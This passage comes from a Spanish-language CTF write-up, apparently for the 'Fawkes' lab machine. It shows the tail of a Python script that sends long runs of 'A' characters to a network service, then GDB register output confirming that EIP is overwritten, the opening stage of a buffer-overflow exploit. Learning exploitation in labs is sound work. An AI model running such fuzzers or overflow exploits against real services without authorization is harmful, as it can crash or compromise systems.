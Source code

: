 ```python
                print(f"\n[+] Conectando a {ip}:{port}...\n")
                s.connect((ip, port))

                # Recibiendo banner
                banner = s.recv(1024)
                print(f"\n[+] Recibiendo Banner: \n------\n{banner.decode('utf-8', errors='ignore')}\n------\n")

                # Creando y enviando payload
                payload = b"A" * length + b'\r\n'
                print(f"[*] Payload Enviado: {payload}\n")
                s.send(payload)

                # Recibiendo respuesta
                response = s.recv(1024)
                if response:
                        print(f"\n[+] Respuesta del servidor: {response.decode('utf-8', errors='ignore')}\n")
                else:
                        print(f"\n[!] Sin respuesta.")

        # Manejo de errores
        except socket.error as e:
                print(f"[!] Error de conexión: {e}")

        except Exception as e:
                print(f"[!] Ocurrio un error: {e}")

        # Cerrando la conexión
	finally:
                s.close()
                print("\n[+] Cerrando conexión.")


if __name__ == '__main__':
        args = parse_arguments()
        exploit(args.ip_addr, args.port, args.length)
```
Es muy simple su uso, debes indicarle la IP, el puerto y la cantidad de caracteres a enviar. Los caracteres que se van a enviar son **A's** solamente.

Puedes probarlo contra el binario o hacerlo manualmente.

Para ejecutar el binario, usamos solamente la letra **r**:
```bash
gef➤  r
Starting program: ../Fawkes/content/server_hogwarts
```

Como ya está iniciado, vamos a enviar el mismo payload de **200 A's** y observamos la respuesta que nos dé **gdb**:
```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffcbbc  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0xffffce40  →  0x0000000a ("\n"?)
$edx   : 0xffffcc84  →  0x0000000a ("\n"?)
$esp   : 0xffffcc30  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x080b3158  →  "../csu/libc-start.c"
$edi   : 0xffffd178  →  "\nEnter your spell: "
$eip   : 0x41414141 ("AAAA"?)
```